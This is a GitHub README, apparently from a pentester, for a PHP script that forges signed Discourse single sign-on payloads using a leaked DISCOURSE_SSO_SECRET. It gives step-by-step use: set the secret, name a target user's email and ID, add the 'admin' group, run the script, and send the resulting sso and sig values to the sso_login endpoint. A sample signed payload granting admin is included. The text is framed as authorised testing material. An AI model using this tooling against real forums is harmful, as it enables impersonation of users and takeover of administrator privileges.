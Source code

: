 # Discourse SSO Payload Generator

## Description
Recently while conducting a pentest on a web application that utilizes Discourse, I stumbled across an error page that dumped a stack trace, server-side code, and environment variables including the `DISCOURSE_SSO_SECRET`. After a little reverse engineering of the code, this PHP script was crafted to generate and sign SSO payloads for Discourse, allowing you to test SSO functionality, authentication flows, and potential privilege escalation scenarios. It uses the `DISCOURSE_SSO_SECRET` to create valid and signed SSO payloads.

---

## Features
- Generate SSO payloads for existing users.
- Customize user attributes such as `email`, `external_id`, `name`, and `add_groups`.
- Sign payloads with the `DISCOURSE_SSO_SECRET`.
- Use crafted payloads to test authentication and privilege escalation.

---

## Usage

### Prerequisites
- PHP installed on your system.
- Access to the `DISCOURSE_SSO_SECRET` from the Discourse configuration.

### Steps
1. **Clone the Repository**:
   ```bash
   git clone https://github.com/quantumthe0ry/Discourse_SSO_Generator.git
   cd Discourse_SSO_Generator
2. **Edit the script**:
   - Open the script (`discourse_sso_gen.php`) and replace `YOUR_DISCOURSE_SSO_SECRET` with the actual secret key.
   - Modify the `$userData` array to include the desired user details:
   ```bash
   $userData = [
    'nonce' => 'valid_nonce_value', // Replace with a valid nonce
    'email' => 'target_user@example.com',
    'external_id' => '1234',
    'name' => 'Target User',
    'add_groups' => 'admin' // Optional: Add or remove groups
   ];
3. **Run the script**:
    ```bash
    php discourse_sso_gen.php
4. **Output: The script will generate a signed SSO payload and display it in the format**:
    ```bash
    SSO Payload:
      sso=bm9uY2U9MzMzNjY2OTk5JmVtYWlsPWVtYWlsJTQwZW1haWwuY29tJmV4dGVybmFsX2lkPTkxOTMmbmFtZT1Kb2huK0RvZSZhZGRfZ3JvdXBzPXRydXN0X2xldmVsXzQlMkNhZG1pbg==
      sig=aadd147e5ef9a5ac6c52e0cbd786d61e1a288fc01728364ff97e53cdf3652738
5. **Construct the SSO URL**:
    ```bash
    https://your-discourse-instance.com/session/sso_login?sso=<base64_encoded_payload>&sig=<signature>
6. **Test the Payload**:
    - Use the constructed URL to send the crafted payload to the Discourse SSO endpoint.


